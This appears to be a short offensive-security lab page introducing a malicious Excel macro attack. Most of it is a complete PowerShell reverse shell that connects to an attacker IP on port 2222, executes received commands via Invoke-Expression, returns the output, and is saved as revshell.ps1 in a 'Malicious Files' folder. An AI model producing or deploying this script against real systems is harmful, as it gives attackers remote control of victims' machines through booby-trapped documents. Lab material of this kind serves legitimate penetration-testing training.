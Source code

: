 In this lab, we will be going through how to use embedded Excel Macros, to carry out a malicious client side exploit on a target machine.

Excel macros are automated tasks created using VBA (Visual Basic for Applications) in Excel. They simplify repetitive tasks by running pre-written code, either recorded or manually coded, to perform actions automatically within Excel.

Reverse powershell script:
```powershell
echo '$LHOST = "192.168.100.100"; $LPORT = 2222; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()' > 'C:\Users\Administrator\Desktop\Malicious Files\revshell.ps1'
```

